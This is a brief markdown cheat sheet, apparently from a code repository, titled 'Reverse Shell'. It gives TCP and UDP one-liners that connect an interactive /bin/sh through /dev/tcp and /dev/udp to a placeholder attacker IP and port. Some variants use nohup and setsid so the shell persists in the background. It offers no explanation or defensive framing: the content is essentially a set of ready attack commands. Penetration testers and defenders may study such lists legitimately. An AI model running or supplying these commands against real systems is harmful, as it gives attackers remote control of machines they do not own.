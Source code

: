 # Reverse Shell

## 01 - TCP Protocol

One-liners.

```
/bin/sh -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1

nohup setsid /bin/sh -c '/bin/sh -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1'

nohup 0<&103-;exec 103<>/dev/tcp/<attacker_IP>/<attacker_PORT>; sh <&103 >&103 2>&103 &2>/dev/null; sleep 1; exit
```

## 02 - UDP Protocol

One-liners.

```
/bin/sh -i >& /dev/udp/<attacker_IP>/<attacker_PORT> 0>&1

nohup setsid /bin/sh -c '/bin/sh -i >& /dev/udp/<attacker_IP>/<attacker_PORT> 0>&1'

nohup 0<&103-;exec 103<>/dev/udp/<attacker_IP>/<attacker_PORT>; sh <&103 >&103 2>&103 &2>/dev/null; sleep 1; exit
```